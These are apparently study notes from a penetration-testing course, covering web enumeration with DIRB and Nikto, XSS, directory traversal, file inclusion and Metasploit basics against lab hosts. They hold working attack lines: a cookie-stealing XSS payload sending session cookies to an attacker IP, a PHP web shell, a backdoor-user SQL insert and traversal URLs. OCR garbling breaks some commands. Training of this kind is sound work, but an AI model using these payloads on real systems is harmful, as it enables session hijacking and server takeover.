DIRB is a web content scanner that uses a wordlist to find directories and pages by issuing requests to the server. DIRB can identify valid web pages on a web server even if the main index page is missing.

By default, DIRB will identify interesting directories on the server but it can also be customized to search for speclfic directories, use custom dlctionaries, set a custom cookie or header on each request, and much more.

Let's run DIRB on www.megacorpone.com. We will supply several arguments: the URL to scan, -r to scan non-recursively, and -z 10 to add a 10 millisecond delay to each request:

```
kali@kali:~$ dirb http://www.megacorpone.com -r -z 10                                                                   255 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Dec 20 20:51:59 2020
URL_BASE: http://www.megacorpone.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive
SPEED_DELAY: 10 milliseconds

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://www.megacorpone.com/ ----
+ http://www.megacorpone.com/about (CODE:200|SIZE:14596)                                                     
+ http://www.megacorpone.com/admin (CODE:403|SIZE:292)                                                               
==> DIRECTORY: http://www.megacorpone.com/assets/                                                                    
+ http://www.megacorpone.com/contact (CODE:200|SIZE:9439)                                                            
+ http://www.megacorpone.com/index (CODE:200|SIZE:14603)                                                             
+ http://www.megacorpone.com/index.html (CODE:200|SIZE:14603)                                                        
+ http://www.megacorpone.com/jobs (CODE:200|SIZE:13269)                                                              
==> DIRECTORY: http://www.megacorpone.com/old-site/                                                                  
+ http://www.megacorpone.com/robots (CODE:200|SIZE:43)                                                               
+ http://www.megacorpone.com/robots.txt (CODE:200|SIZE:43)                                                           
+ http://www.megacorpone.com/server-status (CODE:403|SIZE:300)                                                       
                                                                                                                     
-----------------
END_TIME: Sun Dec 20 21:12:53 2020
DOWNLOADED: 4612 - FOUND: 9

```

#### Burp Suite

Burp Suite is a GUI-based collection of tools geared towards web application security testing, arguably best-known as a powerful proxy tool. While the free Community Edition mainly contains tools used in manual testing, the commercial versions include additional features, including a formidable web application vulnerability scanner. Burp Suite has an extensive feature list and is worth investigation, but we will only explore a few basic f unctions in this section. Please note that while Burp Suite Professional is prohibited during the OSCP exam, it is also not necessary.

Let's start Burp Suite. We can find it in Kali under Applications > 03 Web Application Analysis > burpsuite.

```
kali@kali:~$ burpsuite
```

#### Nikto

Nikto is a highly configurable Open Source web server scanner that tests for thousands of dangerous files and programs, vulnerable server versions and various server configuration issues. It performs well, but is not designed for stealth as it will send many requests and embed information about itself in the User-Agent header.

Nikto can scan multiple servers and ports and will scan as many pages as it can find. On sites with heavy content, such as an ecommerce site, a Nikto scan can take several hours to complete. We have two options to control the scan duration. The simplest option is to set the -maxtime option, which will halt the scan after the specified time limit. This does not optimize the scan in any way. Nikto will simply stop scanning. Our second option is to tune the scan with the -T option. We can use this feature to control which types of tests we want to run. There are times when we do not want to run all the tests built in to Nikto, such as verifying if a certain class of vulnerabilities is present. Tuning a scan is invaluable in these situations.

Nikto is especially useful for catching low-hanging fruit. reporting non-standard server headers, and catching server configuration errors.

To demonstrate this, let's run Nikto against www.megacorpone.com. We'll specify the host we want to scan (-host=http://www.megacorpone.com) and for the sake of this demonstration, we'll use -maxtime=30s to limit t he scan duration to 30 seconds:

```
kali@kali:~$ nikto -host=http://www.megacorpone.com -maxtime=30s
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          3.220.87.155
+ Target Hostname:    www.megacorpone.com
+ Target Port:        80
+ Start Time:         2020-12-20 23:11:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 152243, size: 14603, mtime: Wed Nov  6 10:04:14 2019
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ ERROR: Host maximum execution time of 30 seconds reached
+ Scan terminated:  0 error(s) and 4 item(s) reported on remote host
+ End Time:           2020-12-20 23:11:34 (GMT-5) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Although we limited the scan duration, the output in Listing 283 still provided some interesting information. For example, it identified that the version of Apache running on the server is out of date and past its end-of-life.

We have only demonstrated a fraction of the tools available in Kali Linux in this brief introduction, but the tools we have covered so far will serve us well for the demonstrations that follow in the rest of the module.

#### Exploiting Web-based Vulnerabilities

Now that we've covered enumeration and understand how to use some of the basic tools, we will turn our attention to vulnerability exploitation. In this section, we'll discuss web-based administration consoles and focus on specific vulnerabilities such as cross-site scripting, directory traversal, file inclusion, SQL injection and more.

##### Exploiting Admin Consoles

Let's begin with admin console enumeration and exploitation. Once we've located an admin console, the simplest "exploit" is to just log into it. We may attempt default username/password pairs, use enumerated information to guess working credentials, or attempt brute force. 

However, a light touch is usually best with brute force. Account lockouts will negatively affect our penetration test, will block legitimate administrators, and may alert blue teams to our presence. As always, we must carefully weigh the risks of every attack vector and act carefully and in the best interest of our client.

Despite these risks, a compromised administration console is a prime target and may allow us to deploy and run code on the server, which can provide a quick path to a shell.

To demonstrate this, we will work though an example of an attack against a poorly-configured admin console instal led on our Windows 1O target. Note that the IP addresses used in the rest of this module may not match your lab. Refer to the lab guide for your assigned IP addresses.

To begin, we will set up the Windows 10 target by opening the XAMPP Control panel and clicking
Start for both Apache and MySQL.


Next, we'll run dirb from Kali, targeting our Windows 10 machine.

```
$ dirb http://192.168.0.196 -r             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Dec 21 00:32:05 2020
URL_BASE: http://192.168.0.196/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.0.196/ ----
+ http://192.168.0.196/aux (CODE:403|SIZE:303)
+ http://192.168.0.196/cgi-bin/ (CODE:403|SIZE:303)
+ http://192.168.0.196/com1 (CODE:403|SIZE:303)
+ http://192.168.0.196/com2 (CODE:403|SIZE:303)
+ http://192.168.0.196/com3 (CODE:403|SIZE:303)
+ http://192.168.0.196/con (CODE:403|SIZE:303)
==> DIRECTORY: http://192.168.0.196/dashboard/
+ http://192.168.0.196/examples (CODE:503|SIZE:403)
+ http://192.168.0.196/favicon.ico (CODE:200|SIZE:30894)
==> DIRECTORY: http://192.168.0.196/img/
+ http://192.168.0.196/index.php (CODE:302|SIZE:0)
+ http://192.168.0.196/licenses (CODE:403|SIZE:422)
+ http://192.168.0.196/lpt1 (CODE:403|SIZE:303)
+ http://192.168.0.196/lpt2 (CODE:403|SIZE:303)
+ http://192.168.0.196/nul (CODE:403|SIZE:303)
+ http://192.168.0.196/phpmyadmin (CODE:403|SIZE:422)
+ http://192.168.0.196/prn (CODE:403|SIZE:303)
+ http://192.168.0.196/server-info (CODE:403|SIZE:422)
+ http://192.168.0.196/server-status (CODE:403|SIZE:422)
+ http://192.168.0.196/webalizer (CODE:403|SIZE:422)                                        -----------------
END_TIME: Mon Dec 21 00:32:13 2020
DOWNLOADED: 4612 - FOUND: 18

```

##### Burp Suite Intruder

Since the default credentials didn't seem to work and blank passwords aren't allowed, let's try to automate some basic username and password combinations with Burp Suite's lntruder tool. Please keep in mind that this feature is time-throttled in the Burp Community Edition. Nevertheless, we can still use it in order to explain some important concepts.

**See the steps in PWK pdf**

**Query to retrieve all the data in the users table in the webappdb database**

```
select * from dvwa.users
```


**Create a new user**

```
insert into webappdb.users(password, username) VALUES (backdoor","backdoor");
```


### Cross-Site Scripting (XSS)

One of the most important features of a well-defended web application is data sanitization a
process in which user input is processed, removing or transforming all dangerous characters or
strings. 

Unsanitized data allows an attacker to inject and potentially execute malicious code. When this unsanitized input is displayed on a web page, this creates a Cross-Site Scripting (XSS) vulnerability.

There are three Cross-Site Scripting variants:

1. **Stored XSS** attacks, also known as Persistent XSS, occurs when the exploit payload is stored in a
   database or otherwise cached by a server. The web application then retrieves this payload and
   displays it to anyone that views a vulnerable page. A single Stored XSS vulnerability can therefore
   attack all users of the site. Stored XSS vulnerabilities often exist in forum software, especially in
   comment sections, or in product reviews.
2. **Reflected XSS** attacks usually include the payload in a crafted request or link. The web application
   takes this value and places it into the page content. This variant only attacks the person submitting
   the request or viewing the link. Reflected XSS vulnerabilities can often occur in search fields and
   results, as well as anywhere user input is included in error messages.
3. **DOM-based XSS** attacks are similar to the other two types, but take place solely within the page's
   Document Object Model (DOM). We won't get into many details at this point, but a browser
   parses a page's HTML content and generates an internal DOM representation. JavaScript can
   programmatically interact with this DOM.


#### Identifying XSS Vulnerabilities

We can find potential entry points for XSS by examining a web application and identifying input fields (such as search fields) that accept unsanitized input which is displayed as output in subsequent pages.

Once we identify an entry point, we can input special characters, and observe the output to see if any of the special characters return unfiltered.

The most common special characters used for this purpose include:

```
< > ' " { } ;
```

Let's describe the purpose of these special characters. HTML uses "<" and ">" to denote elements, the various components that make up an HTML document. JavaScript uses "{" and "}" in function declarations. Single (') and double (") quotes are used to denote strings and semicolons (;) are used to mark the end of a statement.

#### Basic XSS

Let's update our input and create a payload that displays a simple Javascript alert

```
<script>alert('XSS')</script>
```

After submitting our payload, refreshing the Feedback page should execute our injected JavaScript:


#### Content Injection

XSS vulnerabilities are often used to deliver client-side attacks as they allow for the redirection of a victim's browser to a location of the attacker's choosing. A stealthy alternative to a redirect is to inject an invisible iframe like the following into our XSS payload.

```
<iframe src=http://192.168.0.223/report height="0" width="0"></iframe>
```

To test this, we can create a Netcat listener on our attack machine (10.11.0.4 in this example) on port 80, and refresh the Feedback page.

```
$ sudo nc -nvlp 80
[sudo] password for kali:
listening on [any] 80 •••
connect to [10.11,0.4] from (UNKNOWN) [10 .11.0,22] 41612
GET /report HTTP/1.1
Host: 10.11.0.4
User-Agent: Mozilla/5.8 (Xll; Linux x86_64; rv:68.8) Gecko/28188101 Firefox/68.8
Accept: text/html ,appl ication/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.ll.0.22/feedback.php
```


#### Stealing Cookies and Session Information

To implement our cookie stealer, we need to modify our XSS payload as follows:

```
<script>new Image().src="http://192.168.0.223/cool.jpg?output="+document.cookie;</script>
```

Once we submit this payload to the application, we just need to wait for an authenticated user to
access the application so we can steal the PHPSESSID cookie. We can do this manually from our
Windows 10 lab machine or we can use a PowerShell script on the Windows 10 lab machine
(Documents/adminJogin.psl) to simulate an admin user login:

```
$username="admin"
$password="p@ssw0rd"
$url_login="127.0.0.l/login.php"
$ie =New-Object-com InternetExplorer.Application
$ie.Visible = $true
$ie.navigate("$url_login")
while($ie.ReadyState -ne 4){ start-sleep -m 1000}
$ie.document.getElementsByName("username")[0].value="$username"
$ie.document.getElementsByName("password")[0].value="$password"
start-sleep -m 10
$ie.document.getElementsByClassName("btn") [0] .click()
start-sleep -m 100
$ie.Quit()
[System.Runtime.Interopservices.MarshalJ::ReleaseComObject($ie)
```

This script creates an instance of Internet Explorer, navigates to the login page, logs in, and then
exits. This is enough to trigger our XSS payloads. We can run the script with -ExecutionPo'licy
Bypass to temporarily allow unsigned scripts and -Fite admin_togin.psl to specify the script
to execute:

```
C:\Users\admin\Documents> powershell -ExecutionPolicy Bypass -File admin_login.psl
```

When our victim views the affected page, their browser will make a connection back to us with the
authenticated session ID value:

```
kali@kali :~$ sudo nc -nvlp 88
listening on [any] 80 •..
connect to [10.11.0.4] from (UNKNOWN) (10.11.0.22] 53824
GET /cool.jpg?output=PHPSESSID=ual9spmd8i3tll9acl9m2tfi76 HTTP/1.1
Referer: http://127.0.0.l/admin.php
User-Agent: Mozilla/5.0 (Xll; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
```

Now that we have the authenticated session ID, we need to set it in our browser. We can use the
Cookie-Editor 273 browser add-on to easily set and manipulate cookies.

We can install this add-on by browsing to https://addons.mozilla.org/en-US/firefox/addon/cookie-
editor/ in Firefox and clicking on Add to Firefox:

**See the steps in PWK pdf**

### Directory Traversal Vulnerabilities

Directory traversal vulnerabilities, also known as **path traversal vulnerabilities**, allow attackers to
gain unauthorized access to files within an application or files normally not accessible through a
web interface, such as those outside the application's web root directory. This vulnerability occurs
when input is poorly validated, subsequently granting an attacker the ability to manipulate file paths
with • . .r or" .. \" characters.

These attacks can expose sensitive information but they do not execute code on the application
server. On certain application servers written in specific programming languages, directory
traversal attacks can be used to help facilitate file inclusion attacks. While there is some overlap in
the techniques used to identify these two types of vulnerabilities, they are distinct in their outcome.
We will cover directory traversal techniques first and file inclusion vulnerabilities in a later section.

#### Directory Traversal - Directories

```
http://192.168.1.12/bwapp/directory_traversal_2.php?directory=c:\xampp
```


#### Directory Traversal - Files

```
http://192.168.1.12/bwapp/directory_traversal_1.php?page=c:\windows\system32\drivers\etc\hosts
```


### File Inc lusion Vulnerabilities

- Unlike directory traversals that simply display the contents of a file, file inclusion vulnerabilities
  allow an attacker to include a file into the application's running code.
- In order to actually exploit a file inclusion vulnerability, we must be able to not only execute code,
  but also to write our shell payload somewhere.
- **Local file inclusions (LFI)** occur when the included file is loaded from the same web server. 
- **Remote file inclusions (RFI)** occur when a file is loaded from an external source. These vulnerabilities are commonly found in PHP applications but they can occur in other programming languages as well.
- The exploitation of these vulnerabilities depends on the programming language the application is
  written in and the server configuration. In the case of PHP, the version of the language runtime and web server configurations, specifically php.ini values such as *register_globals* and *allow_url_wrappers*, make a considerable difference in how these vulnerabilities can be exploited.

#### Exploiting Local File Inclusion (LFI)


Let's send that payload now:

```
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```


### Starting HTTP server

#### Python

```
kali@kali:~$ python -m SimpleHTTPServer 7331
Serving HTTP on 0.0.0.0 port 7331 ...

kali@kali:~$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
```

#### Php

```
kali@kali:~$ php -S 0.0.0.0:8000
PHP 7.3.8-1 Development Server started at Wed Aug 28 12:59:52 2019
```

#### Ruby

```
kali@kali:~$ ruby -run -e httpd . -p 9000
[2019-08-28 12:44:14] INFO WEBrick 1.4.2
[2019-08-28 12:44:14] INFO ruby 2.5.5 (2019-03-15) [x86_64-linux-gnu]
[2019-08-28 12:44:14] INFO WEBrick::HTTPServer#start: pid=1367 port=9000
```

#### Busybox

```
kali@kali:~$ busybox httpd -f -p 10000
```


## The Metasploit Framework

### Metasploit User Interfaces and Setup

Start postgresql service

```
kali@kali:~$ sudo systemctl start postgresql
```

Enable postgresql at boot time

```
kali@kali:~$ sudo systemctl enable postgresql
```

Update metasploit

```
kali@kali:~$ sudo apt update; sudo apt install metasploit-framework
```

Launch metasploit

```
kali@kali:~$ sudo msfconsole
```

The Metasploit Framework includes several thousand modules, divided into categories. The
categories are displayed on the splash screen summary but we can also view them with the show
-h command.

```
msf6 > show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
```

To activate a module, enter use followed by the module name (auxiliary/scanner/portscan/tcp in
the example below). At this point, the prompt will indicate the active module. We can use back to
move out of the current context and return to the main msf6 prompt:

```
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > back
msf6 >
```

A variation of back is previous , which will switch us back to the previously selected module
instead of the main prompt:

```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/portscan/syn
msf5 auxiliary(scanner/portscan/syn) > previous
msf5 auxiliary(scanner/portscan/tcp) >
```

Most modules require options ( show options ) before they can be run. We can configure these
options with set and unset and can also set and remove global options with setg or unsetg
respectively.

```
msf6 auxiliary(scanner/portscan/tcp) > show options 

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

```

For example, to perform a scan of our Windows workstation with the scanner/portscan/tcp
module, we must first set the remote host IP address ( RHOSTS ) with the set command.

```
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.101.113
RHOSTS => 192.168.101.113
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.101.113:      - 192.168.101.113:80 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:135 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:139 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:445 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:443 - TCP OPEN

```

### Metasploit Database Access

- If the postgresql service is running, Metasploit will log findings and information about discovered
  hosts, services, or credentials in a convenient, accessible database.
- In the following listing, the database has been populated with the results of the TCP scan we ran in
  the previous section. We can display these results with the services command:

```
msf6 auxiliary(scanner/portscan/tcp) > services 
Services
========

host             port  proto  name  state  info
----             ----  -----  ----  -----  ----
192.168.101.113  80    tcp          open   
192.168.101.113  135   tcp          open   
192.168.101.113  139   tcp          open   
192.168.101.113  443   tcp          open   
192.168.101.113  445   tcp          open   
192.168.101.113  3306  tcp          open   
192.168.101.113  3389  tcp          open   
192.168.101.113  5040  tcp          open   
192.168.101.113  5357  tcp          open   
192.168.101.113  7680  tcp          open   
```

The basic services command displays all results, but we can also filter by port number ( -p ),
service name ( -s ), and more as shown in the help output of services -h :

```
msf6 auxiliary(scanner/portscan/tcp) > services -h

Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]

  -a,--add          Add the services instead of searching
  -d,--delete       Delete the services instead of searching
  -c <col1,col2>    Only show the given columns
  -h,--help         Show this help information
  -s <name>         Name of the service to add
  -p <port>         Search for a list of ports
  -r <protocol>     Protocol type of the service being added [tcp|udp]
  -u,--up           Only show services which are up
  -o <file>         Send output to a file in csv format
  -O <column>       Order rows by specified column number
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by
  -U,--update       Update data for existing service

Available columns: created_at, info, name, port, proto, state, updated_at
```

In addition to a simple TCP port scanner, we can also use the db_nmap wrapper to execute Nmap
inside Metasploit and save the findings to the database for ease of access. The db_nmap command
has identical syntax to Nmap and is shown below:

```
msf6 > db_nmap 
[*] Usage: db_nmap [--save | [--help | -h]] [nmap options]

sf6 > db_nmap 192.168.101.113 -A -Pn
[*] Nmap: 'Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.'
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-14 22:40 EST
[*] Nmap: Nmap scan report for 192.168.101.113
[*] Nmap: Host is up (0.0015s latency).
[*] Nmap: Not shown: 992 filtered ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 80/tcp   open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/7.4.13)
[*] Nmap: |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/7.4.13
[*] Nmap: | http-title: Welcome to XAMPP
[*] Nmap: |_Requested resource was http://192.168.101.113/dashboard/
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 443/tcp  open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/7.4.13)
[*] Nmap: |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/7.4.13
[*] Nmap: | http-title: Welcome to XAMPP
[*] Nmap: |_Requested resource was https://192.168.101.113/dashboard/
[*] Nmap: | ssl-cert: Subject: commonName=localhost
[*] Nmap: | Not valid before: 2009-11-10T23:48:47
[*] Nmap: |_Not valid after:  2019-11-08T23:48:47
[*] Nmap: |_ssl-date: TLS randomness does not represent time
[*] Nmap: | tls-alpn:
[*] Nmap: |_  http/1.1
[*] Nmap: 445/tcp  open  microsoft-ds  Windows 10 Pro 18363 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3306/tcp open  mysql?
[*] Nmap: | fingerprint-strings:
[*] Nmap: |   NULL:
[*] Nmap: |_    Host '192.168.101.116' is not allowed to connect to this MariaDB server
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: | rdp-ntlm-info:
[*] Nmap: |   Target_Name: DESKTOP-H5AKSBG
[*] Nmap: |   NetBIOS_Domain_Name: DESKTOP-H5AKSBG
[*] Nmap: |   NetBIOS_Computer_Name: DESKTOP-H5AKSBG
[*] Nmap: |   DNS_Domain_Name: DESKTOP-H5AKSBG
[*] Nmap: |   DNS_Computer_Name: DESKTOP-H5AKSBG
[*] Nmap: |   Product_Version: 10.0.18362
[*] Nmap: |_  System_Time: 2021-02-15T03:40:53+00:00
[*] Nmap: | ssl-cert: Subject: commonName=DESKTOP-H5AKSBG
[*] Nmap: | Not valid before: 2020-12-08T02:39:09
[*] Nmap: |_Not valid after:  2021-06-09T02:39:09
[*] Nmap: |_ssl-date: 2021-02-15T03:41:32+00:00; 0s from scanner time.
[*] Nmap: 5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: |_http-server-header: Microsoft-HTTPAPI/2.0
[*] Nmap: |_http-title: Service Unavailable
[*] Nmap: 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[*] Nmap: SF-Port3306-TCP:V=7.91%I=7%D=2/14%Time=6029ED34%P=x86_64-pc-linux-gnu%r(NU
[*] Nmap: SF:LL,4E,"J\0\0\x01\xffj\x04Host\x20'192\.168\.101\.116'\x20is\x20not\x20a
[*] Nmap: SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
[*] Nmap: MAC Address: 00:0C:29:57:A0:26 (VMware)
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose
[*] Nmap: Running (JUST GUESSING): Microsoft Windows XP|2008|7 (89%)
[*] Nmap: OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
[*] Nmap: Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (86%), Microsoft Windows XP SP2 (85%), Microsoft Windows 7 (85%)
[*] Nmap: No exact OS matches for host (test conditions non-ideal).
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: Host: DESKTOP-H5AKSBG; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: |_clock-skew: mean: -1h35m59s, deviation: 3h34m39s, median: 0s
[*] Nmap: |_nbstat: NetBIOS name: DESKTOP-H5AKSBG, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:57:a0:26 (VMware)
[*] Nmap: | smb-os-discovery:
[*] Nmap: |   OS: Windows 10 Pro 18363 (Windows 10 Pro 6.3)
[*] Nmap: |   OS CPE: cpe:/o:microsoft:windows_10::-
[*] Nmap: |   Computer name: DESKTOP-H5AKSBG
[*] Nmap: |   NetBIOS computer name: DESKTOP-H5AKSBG\x00
[*] Nmap: |   Workgroup: WORKGROUP\x00
[*] Nmap: |_  System time: 2021-02-15T11:40:53+08:00
[*] Nmap: | smb-security-mode:
[*] Nmap: |   account_used: guest
[*] Nmap: |   authentication_level: user
[*] Nmap: |   challenge_response: supported
[*] Nmap: |_  message_signing: disabled (dangerous, but default)
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   2.02:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2021-02-15T03:40:52
[*] Nmap: |_  start_date: N/A
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   1.53 ms 192.168.101.113
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 62.56 seconds

```

To display all discovered hosts up to this point, we can issue the hosts command. As an additional
example, we can also list all services running on port 445 with the services -p 445 command.

```
msf6 > hosts

Hosts
=====

address          mac                name     os_name     os_flavor  os_sp  purpose  info  comments
-------          ---                ----     -------     ---------  -----  -------  ----  --------
192.168.100.107                     OWEN-PC  Windows 10                    client         
192.168.101.113  00:0c:29:57:a0:26           Windows XP                    client         

msf6 > services -p 445
Services
========

host             port  proto  name          state  info
----             ----  -----  ----          -----  ----
192.168.101.113  445   tcp    microsoft-ds  open   Windows 10 Pro 18363 microsoft-ds workgroup: WORKGROUP
```

To help organize content in the database, Metasploit allows us to store information in separate
workspaces. When specifying a workspace, we will only see database entries relevant to that
workspace, which helps us easily manage data from various enumeration efforts and assignments.
We can list the available workspaces with workspace , or provide the name of the workspace as an
argument to change to a different workspace

```
msf6 > workspace --help
Usage:
    workspace                  List workspaces
    workspace -v               List workspaces verbosely
    workspace [name]           Switch workspace
    workspace -a [name] ...    Add workspace(s)
    workspace -d [name] ...    Delete workspace(s)
    workspace -D               Delete all workspaces
    workspace -r <old> <new>   Rename workspace
    workspace -h               Show this help information
```


### Auxiliary Modules

The Metasploit Framework includes hundreds of auxiliary modules that provide functionality such
as protocol enumeration, port scanning, fuzzing, sniffing, and more. The modules all follow a
common slash-delimited hierarchical syntax (module type/os, vendor, app, or protocol/module
name), which makes it easy to explore and use the modules. Auxiliary modules are useful for many
tasks, including information gathering (under the gather/ hierarchy), scanning and enumeration of
various services (under the scanner/ hierarchy), and so on.

To list all auxiliary modules, we run the show auxiliary command. This will present a very long
list of all auxiliary modules as shown in the truncated output below:

```
msf5 > show auxiliary
Auxiliary
=========
Name
Rank
Description
----
----
-----------
................
scanner/smb/smb1
normal SMBv1 Protocol Detection
scanner/smb/smb2
normal SMB 2.0 Protocol Detection
scanner/smb/smb_enumshares
normal SMB Share Enumeration
scanner/smb/smb_enumusers
normal SMB User Enumeration (SAM EnumUsers)
scanner/smb/smb_enumusers_domain
normal SMB Domain User Enumeration
scanner/smb/smb_login
normal SMB Login Check Scanner
scanner/smb/smb_lookupsid
normal SMB SID User Enumeration (LookupSid)
scanner/smb/smb_ms17_010
normal MS17-010 SMB RCE Detection
scanner/smb/smb_version
normal SMB Version Detection
```

We can use search to reduce this considerable output, filtering by app, type, platform, and more.
For example, we can search for SMB auxiliary modules with search type:auxiliary name:smb
as shown in the following listing.

```
msf6 > search -h
Usage: search [<options>] [<keywords>:<value>]

Prepending a value with '-' will exclude any matching results.
If no options or keywords are provided, cached results are displayed.

OPTIONS:
  -h                Show this help information
  -o <file>         Send output to a file in csv format
  -S <string>       Regex pattern used to filter search results
  -u                Use module if there is one result

Keywords:
  aka         :  Modules with a matching AKA (also-known-as) name
  author      :  Modules written by this author
  arch        :  Modules affecting this architecture
  bid         :  Modules with a matching Bugtraq ID
  cve         :  Modules with a matching CVE ID
  edb         :  Modules with a matching Exploit-DB ID
  check       :  Modules that support the 'check' method
  date        :  Modules with a matching disclosure date
  description :  Modules with a matching description
  fullname    :  Modules with a matching full name
  mod_time    :  Modules with a matching modification date
  name        :  Modules with a matching descriptive name
  path        :  Modules with a matching path
  platform    :  Modules affecting this platform
  port        :  Modules with a matching port
  rank        :  Modules with a matching rank (Can be descriptive (ex: 'good') or numeric with comparison operators (ex: 'gte400'))
  ref         :  Modules with a matching ref
  reference   :  Modules with a matching reference
  target      :  Modules affecting this target
  type        :  Modules of a specific type (exploit, payload, auxiliary, encoder, evasion, post, or nop)

Examples:
  search cve:2009 type:exploit
  search cve:2009 type:exploit platform:-linux
```

```
msf6 > search type:auxiliary name:smb

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank    Check  Description
   -   ----                                                        ---------------  ----    -----  -----------
   0   auxiliary/admin/oracle/ora_ntlm_stealer                     2009-04-07       normal  No     Oracle SMB Relay Code Execution
   1   auxiliary/admin/smb/check_dir_file                                           normal  No     SMB Scanner Check File/Directory Utility
   2   auxiliary/admin/smb/delete_file                                              normal  No     SMB File Delete Utility
   3   auxiliary/admin/smb/download_file                                            normal  No     SMB File Download Utility
   4   auxiliary/admin/smb/list_directory                                           normal  No     SMB Directory Listing Utility
.......
```

#### SMB Scanner

After invoking a module with use , we can request more info about it as follows:

```
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > info

       Name: SMB Version Detection
     Module: auxiliary/scanner/smb/smb_version
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>
  Spencer McIntyre
  Christophe De La Fuente

Check supported:
  No

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  THREADS  1                yes       The number of concurrent threads (max one per host)

Description:
  Fingerprint and display version information about SMB servers. 
  Protocol information and host operating system (if available) will 
  be reported. Host operating system detection requires the remote 
  server to support version 1 of the SMB protocol. Compression and 
  encryption capability negotiation is only present in version 3.1.1.
```

Alternatively, since we have already scanned our Windows 10 machine, we could search the Metasploit database for hosts with TCP port 445 open ( services -p 445 ) and automatically add the results to RHOSTS ( –rhosts ):

```
msf6 auxiliary(scanner/smb/smb_version) > services -p 445 --rhosts
